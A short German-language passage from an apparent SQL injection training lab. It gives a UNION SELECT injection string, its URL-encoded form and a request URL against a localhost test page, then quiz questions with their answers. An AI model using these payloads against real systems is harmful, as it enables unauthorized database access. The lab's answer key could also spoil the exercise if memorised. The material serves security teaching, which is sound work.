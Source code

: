Beginnen Sie wie bei der vorherigen Webseite damit, den Namen der Datenbank und die Spaltenanzahl der betroffenen Tabelle herauszufinden.
Encodieren Sie Ihr Injection-Statement dazu im URL-Format und kopieren Sie es in die Adresszeile.

' AND 1=0 UNION SELECT 0,0,0,0,0,database(),0;--
'%20AND%201%3D0%20UNION%20SELECT%200%2C0%2C0%2C0%2C0%2Cdatabase()%2C0%3B--%20
http://localhost:82/index.php?id=2%27%20AND%201%3D0%20UNION%20SELECT%200%2C0%2C0%2C0%2C0%2Cdatabase()%2C0%3B--%20

>>9) Wie viele Spalten enthält die Tabelle insgesamt?<<
     === 7

>>10) Wie lautet der Name der Datenbank?<<
     === highlight_db
